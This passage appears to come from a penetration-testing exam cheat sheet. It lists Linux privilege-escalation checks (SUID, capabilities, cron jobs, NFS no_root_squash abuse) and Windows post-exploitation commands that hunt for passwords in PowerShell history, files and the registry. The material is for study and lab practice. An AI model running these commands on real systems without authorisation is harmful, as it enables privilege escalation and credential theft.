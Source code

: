 ```bash
sudo -l
find / -perm -u=s -type f 2>/dev/null
getcap -r / 2>/dev/null
```

#### Cron Jobs

```bash
#Detecting Cronjobs
cat /etc/crontab
crontab -l
pspy  #handy tool to livemonitor stuff happening in Linux
```

#### NFS

```bash
##Mountable shares
cat /etc/exports  #On target
showmount -e TARGET_IP  #On attacker
###Check for "no_root_squash" in the output of shares
mount -o rw TARGET_IP:SHARE_PATH LOCAL_MOUNT_POINT  #Now create a binary there
chmod +x BINARY_NAME
```

### Post Exploitation

This is more windows specific as exam specific.

💡 Run WinPEAS.exe - This may give us some more detailed information as now we're a privileged user and we can open several files, gives some edge!

#### Sensitive Information

#### Powershell History

```bash
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

Example:

```bash
type C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

#### Searching for passwords

```bash
dir .s *pass* == *.config
findstr /si password *.xml *.ini *.txt
```

#### Searching in Registry for Passwords

```bash
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```
